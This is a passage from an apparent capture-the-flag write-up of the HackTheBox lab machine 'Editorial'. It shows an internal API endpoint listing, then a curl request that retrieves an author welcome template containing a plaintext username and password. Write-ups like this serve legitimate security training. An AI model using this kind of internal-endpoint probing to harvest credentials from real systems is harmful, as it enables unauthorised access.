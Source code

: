 ```bash
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
Making request to any of these urls returns the response as above I got, But this endpoint is very interesting `/api/latest/metadata/messages/authors`.
I requested it and got a juicy info back.

```bash
➜  editorial curl -s 'http://editorial.htb/static/uploads/b67835e4-daed-4717-a961-c0a4adb22ab3' | jq .
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
